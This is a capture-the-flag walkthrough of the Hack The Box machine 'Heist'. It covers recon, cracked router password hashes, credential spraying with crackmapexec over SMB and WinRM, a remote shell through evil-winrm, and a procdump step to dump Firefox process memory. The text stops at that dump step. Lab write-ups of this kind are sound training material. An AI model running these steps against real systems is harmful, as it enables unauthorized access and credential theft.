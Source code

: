 ```yaml
---
title: "Heist HTB"
date: 2023-04-01T12:25:19-07:00
draft: false
---
```


![](https://0xrick.github.io/images/hackthebox/heist/0.png)
# Recon
`sudo nmap -sU -sS --min-rate=10000 10.10.10.149`


~~~bash
PORT    STATE SERVICE
80/tcp  open  http
135/tcp open  msrpc
445/tcp open  microsoft-ds
~~~

Going to the site, it allows you to login as guest and see the issues. You get a configs.txt file in the attachments as well as the admin password hash. 

# Passwords
`admin   02375012182C1A1D751618034F36415408`
`rout3r  0242114B0E143F015F5D1E161713`
`$1$pdQG$o8nrSzsGXeaduXrjlvKc91`
you get the passowrd: `Q4)sJu\Y8qz*A3?d` for admin and `$uperP@ssword` for rout3r
you also get an md5 password `stealth1agent`
using a tool like `crackmapexec` and usernames like admin, rout3r, and hazard you should be able to crack smb

# SMB
`crackmapexec smb 10.10.10.149 -u usernames.txt -p passwords.txt`

~~~bash
SMB         10.10.10.149    445    SUPPORTDESK      [*] Windows 10.0 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\hazard:$uperP@ssword STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\hazard:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\hazard:stealth1agent 
~~~

valid creds! but upon further examination they only let authentication and nothing else.

`crackmapexec smb 10.10.10.149 -u usernames.txt -p passwords.txt --rid-brute`

~~~bash
SMB         10.10.10.149    445    SUPPORTDESK      [*] Windows 10.0 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\hazard:$uperP@ssword STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\hazard:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\hazard:stealth1agent 
SMB         10.10.10.149    445    SUPPORTDESK      [+] Brute forcing RIDs
SMB         10.10.10.149    445    SUPPORTDESK      500: SUPPORTDESK\Administrator (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      501: SUPPORTDESK\Guest (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      503: SUPPORTDESK\DefaultAccount (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      513: SUPPORTDESK\None (SidTypeGroup)
SMB         10.10.10.149    445    SUPPORTDESK      1008: SUPPORTDESK\Hazard (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      1009: SUPPORTDESK\support (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      1012: SUPPORTDESK\Chase (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      1013: SUPPORTDESK\Jason (SidTypeUser)
~~~

using the usernames gathered there is a valid creds for winrm
`crackmapexec winrm 10.10.10.149 -u usernames.txt -p passwords.txt `

~~~bash
WINRM       10.10.10.149    5985   SUPPORTDESK      [-] SupportDesk\Administrator:Q4)sJu\Y8qz*A3?d
WINRM       10.10.10.149    5985   SUPPORTDESK      [-] SupportDesk\Administrator:stealth1agent
WINRM       10.10.10.149    5985   SUPPORTDESK      [-] SupportDesk\administrator:$uperP@ssword
WINRM       10.10.10.149    5985   SUPPORTDESK      [-] SupportDesk\administrator:Q4)sJu\Y8qz*A3?d
WINRM       10.10.10.149    5985   SUPPORTDESK      [-] SupportDesk\administrator:stealth1agent
WINRM       10.10.10.149    5985   SUPPORTDESK      [-] SupportDesk\rout3r:$uperP@ssword
WINRM       10.10.10.149    5985   SUPPORTDESK      [-] SupportDesk\rout3r:Q4)sJu\Y8qz*A3?d
WINRM       10.10.10.149    5985   SUPPORTDESK      [-] SupportDesk\rout3r:stealth1agent
WINRM       10.10.10.149    5985   SUPPORTDESK      [-] SupportDesk\support:$uperP@ssword
WINRM       10.10.10.149    5985   SUPPORTDESK      [-] SupportDesk\support:Q4)sJu\Y8qz*A3?d
WINRM       10.10.10.149    5985   SUPPORTDESK      [-] SupportDesk\support:stealth1agent
WINRM       10.10.10.149    5985   SUPPORTDESK      [-] SupportDesk\chase:$uperP@ssword
WINRM       10.10.10.149    5985   SUPPORTDESK      [+] SupportDesk\chase:Q4)sJu\Y8qz*A3?d (Pwn3d!)

~~~

# Foothold
`evil-winrm -u chase -p "Q4)sJu\Y8qz*A3?d" -i 10.10.10.149`
you get a shell!

upon looking for interesting files there is todo.txt on the desktop dir
~~~bash
Stuff to-do:
1. Keep checking the issues list.
2. Fix the router config.

Done:
1. Restricted access for guest user.
~~~

# Priv esc

looking for process like firefox or chrome allows you to possibly get the data or dump the process
`get-process -name firefox`
and it is running.

~~~powershell
Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
    401      34    33960      91728       1.13   3636   1 firefox
   1074      69   132720     209028       8.52   5676   1 firefox
    347      19    10236      36748       0.08   5860   1 firefox
    378      28    21744      58392       0.84   6312   1 firefox
    355      25    16448      39104       0.11   6688   1 firefox

~~~
to dump the process you will need procdump

to upload it 
`upload procdump.exe C:\Users\Chase\Desktop\`

to dump process
`.\procdump.exe -accepteula -ma 5676 firefox_dump.dmp`
